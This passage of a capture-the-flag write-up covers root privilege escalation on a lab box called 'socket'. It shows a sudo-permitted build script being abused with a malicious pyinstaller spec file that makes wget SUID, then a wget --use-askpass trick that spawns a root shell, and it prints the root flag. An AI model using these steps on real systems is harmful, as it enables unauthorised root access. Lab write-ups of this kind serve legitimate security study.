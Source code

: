 ### Privilege Escalation 

When running `sudo -l` you can see that we can run a bash file

```

tkeller@socket:/dev/shm/my_dir$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                
                                                
User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh

```

When viewing that file you can see the following statement:

```

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi

```

This statement takes a spec file, and uses pyinstaller to build the spec file as a python executable. If you search a little bit online you can find that in a spec file you can import python modules. so you can create a malicious spec file that at the time of build it will execute a command. You can do that as follows:

```

tkeller@socket:/dev/shm/my_dir$ cat /dev/shm/my_dir/main.spec
# -*- mode: python -*-
import subprocess

subprocess.Popen('sudo chmod +s /usr/bin/wget', shell=True)

```

What it does is it changes the permissions of the `wget` command for it to be SUID and by that we can escalate our privileges.

```

tkeller@socket:/dev/shm/my_dir$ sudo /usr/local/sbin/build-installer.sh build main.spec
tkeller@socket:/dev/shm/my_dir$ TF=$(mktemp)
tkeller@socket:/dev/shm/my_dir$ chmod +x $TF
tkeller@socket:/dev/shm/my_dir$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
tkeller@socket:/dev/shm/my_dir$ /usr/bin/wget --use-askpass=$TF 0
# bash -p
bash-5.1# whoami && id && cat /root/root.txt
root
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) egid=0(root) groups=0(root),1001(tkeller),1002(shared)
4fc0440bc2d9cc4883d01db77c2f1504

```

And that was all that was a fairly easy privEsc but way harder to get the foothold, you need to keep it simple in the privesc here and you'll get it done. Thanks for tuning in, Cheers mates.
